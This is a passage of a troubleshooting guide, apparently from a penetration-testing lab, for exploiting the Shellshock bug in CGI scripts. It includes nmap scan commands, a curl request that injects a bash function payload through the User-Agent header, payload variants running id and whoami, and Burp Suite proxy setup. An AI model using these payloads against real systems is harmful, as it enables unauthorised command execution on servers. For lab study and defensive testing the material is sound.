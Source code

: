 **✅ Solutions:**
```bash
# Try multiple common CGI paths
nmap --script http-shellshock --script-args "http-shellshock.uri=/cgi-bin/test.cgi" TARGET
nmap --script http-shellshock --script-args "http-shellshock.uri=/cgi-bin/status.cgi" TARGET  
nmap --script http-shellshock --script-args "http-shellshock.uri=/scripts/test.cgi" TARGET

# Verify CGI script exists and is accessible
curl -I http://TARGET/gettime.cgi
# Should return: HTTP/1.1 200 OK (not 404 Not Found)

# Test with manual curl request
curl -v -H "User-Agent: () { :; }; echo; echo; /bin/bash -c 'echo test'" http://TARGET/gettime.cgi
```

### 🔧 **Issue 2: Payload Executes But No Output Visible**

**🚨 Problem:** Shellshock payload seems to execute but no command output in response

**🔍 Root Causes:**
- Missing echo statements in payload
- Output being filtered by web server
- Command syntax errors

**✅ Solutions:**
```bash
# Ensure proper payload formatting with echo statements
() { :; }; echo; echo; /bin/bash -c 'id'
#         ^^^^^ ^^^^^ These are critical for HTTP response formatting

# Test with different commands
() { :; }; echo; echo; /bin/bash -c 'whoami'           # Alternative to 'id'
() { :; }; echo; echo; /bin/bash -c 'echo SUCCESS'     # Simple test command

# Check HTTP response headers and body in Burp Suite
# Look for output in both response headers and body sections
```

### 🔧 **Issue 3: Burp Suite Proxy Not Working**

**🚨 Problem:** Cannot intercept requests in Burp Suite or browser shows connection errors

**🔍 Root Causes:**
- Incorrect proxy configuration
- Certificate issues
- Burp Suite not listening on correct port

**✅ Solutions:**
```bash
# Verify Burp Suite proxy settings
# Proxy → Options → Proxy Listeners
# Ensure: 127.0.0.1:8080 is running and "All interfaces" if needed

# Firefox proxy configuration (FoxyProxy)
# HTTP Proxy: 127.0.0.1 Port: 8080
# HTTPS Proxy: 127.0.0.1 Port: 8080

# Test proxy connection
curl --proxy 127.0.0.1:8080 http://demo.ine.local
# Should show request in Burp Suite HTTP history

# Disable HTTPS certificate validation if needed
# Firefox → Settings → Privacy & Security → View Certificates
```
